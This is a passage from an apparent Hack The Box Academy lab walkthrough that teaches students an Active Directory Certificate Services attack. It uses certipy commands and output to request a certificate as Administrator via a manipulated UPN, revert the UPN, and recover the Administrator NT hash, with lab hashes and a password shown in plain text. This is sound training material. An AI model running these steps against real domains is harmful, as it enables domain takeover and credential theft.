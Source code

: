 Code: shell

```shell
certipy req -u user2@lab.local -hashes ee22ddf0f8a66db4217050e6a948f9d6 -ca lab-LAB-DC-CA -template User
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-bnvlm3dysz]─[~]
└──╼ [★]$ certipy req -u user2@lab.local -hashes ee22ddf0f8a66db4217050e6a948f9d6 -ca lab-LAB-DC-CA -template User

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 66
[*] Got certificate with UPN 'Administrator'
[*] Certificate object SID is 'S-1-5-21-2570265163-3918697770-3667495639-1192'
[*] Saved certificate and private key to 'administrator.pfx'
```

Subsequently, students need to revert the `UPN` of `user2` to its original value (i.e., `user2`), using the `account` command of `certipy` along with the `update` positional argument, specifying `user2` for the `-user` and `-upn` options:

Code: shell

```shell
certipy account update -u blwasp@lab.local -p Password123! -user user2 -upn user2
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-aoyamvb8qf]─[~]
└──╼ [★]$ certipy account update -u blwasp@lab.local -p Password123! -user user2 -upn user2

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'user2':
    userPrincipalName                   : user2
[*] Successfully updated 'user2'
```

Utilizing the certificate, students need to use the `auth` command of `certipy` to request a TGT for `Administrator` and `Un-PAC-the-hash` within it; students will attain the NT hash `2b576acbe6bcfda7294d6bd18041b8fe`:

Code: shell

```shell
certipy auth -pfx administrator.pfx -domain lab.local
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-bnvlm3dysz]─[~]
└──╼ [★]$ certipy auth -pfx administrator.pfx -domain lab.local

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@lab.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@lab.local': aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe
```
